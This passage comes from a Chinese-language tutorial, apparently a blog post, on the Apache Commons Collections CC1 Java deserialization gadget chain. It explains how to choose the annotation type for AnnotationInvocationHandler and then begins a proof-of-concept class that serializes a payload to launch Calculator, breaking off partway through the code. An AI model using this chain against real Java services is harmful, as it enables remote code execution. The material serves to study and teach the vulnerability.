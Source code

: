**这里通过反射方式，获取这个注解类的所有方法**

**然后再将所有的方法名塞给memberTypes这个Map**

而我们这里要获取的就是memberType

```java
public Map<String, Class<?>> memberTypes() {
  return memberTypes;
}

```

所以我们的需求就变成了：

对于`sun.reflect.annotation.AnnotationInvocationHandler`这个类的构造函数

```java
    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        this.type = type;
        this.memberValues = memberValues;
    }
```

而言，我们需要找到一个参数type，它必须满足：

1. 是一个类对象
2. 该类是一个注解类
3. **该类至少存在一个方法**（记为Methodxxx）

然后我们控制memberValues，让他满足：

1. 存在一个键值对，**其key等于**Methodxxx

最终我们找到了一个*Retention*类



![image-20231123111335349](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123111335349.png)

#### 第三个poc demo

```java
package org.example2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CCC1 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc1("/System/Applications/Calculator.app/Contents/MacOS/Calculator"));
        unserialize(evilData);
    }

    static Object cc1(String args) throws Exception{
        Transformer[] transformers = new Transformer[]{
```